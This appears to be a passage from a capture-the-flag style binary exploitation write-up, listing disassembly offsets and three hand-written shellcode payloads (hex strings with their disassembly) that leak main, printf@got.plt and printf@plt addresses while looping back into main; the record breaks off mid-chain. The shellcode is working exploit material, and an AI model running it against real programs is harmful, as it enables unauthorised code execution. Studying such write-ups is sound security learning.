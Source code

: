And we have these offsets:

```
0x1295 <+236>:   call   rdx
0x1297 <+238>:   mov    eax,0x0
0x11a9 <main+0>:     endbr64
0x10a0 <printf@plt>: endbr64
0x3fc8 <printf@got.plt>:        0x0000000000001050
```

My first payload was: 

```
payload = "\x5B\x48\x31\xC0\xB0\xEE\x48\x29\xC3\x53\x49\x89\xDD\xC3"
sec_payload = "AAAA"
```

```
0:  5b                      pop    rbx
1:  48 31 c0                xor    rax,rax
4:  b0 ee                   mov    al,0xee
6:  48 29 c3                sub    rbx,rax
9:  53                      push   rbx
a:  49 89 dd                mov    r13,rbx
d:  c3                      ret
```
`rbx` will have addresss of `0x1297 <+238>:   mov    eax,0x0` then we calculate with the offset

`r13 = main_addr`

With this we can cyle over main function over and over again

```
payload = "\x4D\x89\xEE\x48\x31\xC0\x66\xB8\x1F\x2E\x49\x01\xC6\x41\x55\xC3"
```

```
0:  4d 89 ee                mov    r14,r13
3:  48 31 c0                xor    rax,rax
6:  66 b8 1f 2e             mov    ax,0x2e1f
a:  49 01 c6                add    r14,rax
d:  41 55                   push   r13
f:  c3                      ret
```
`r14 = printf@got.plt_addr`

```
payload = "\x4D\x89\xF7\x48\x31\xC0\x66\xB8\x28\x2F\x49\x29\xC7\x41\x55\xC3"
```

```
0:  4d 89 f7                mov    r15,r14
3:  48 31 c0                xor    rax,rax
6:  66 b8 28 2f             mov    ax,0x2f28
a:  49 29 c7                sub    r15,rax
d:  41 55                   push   r13
f:  c3                      ret
```
`r15= printf@plt_addr`

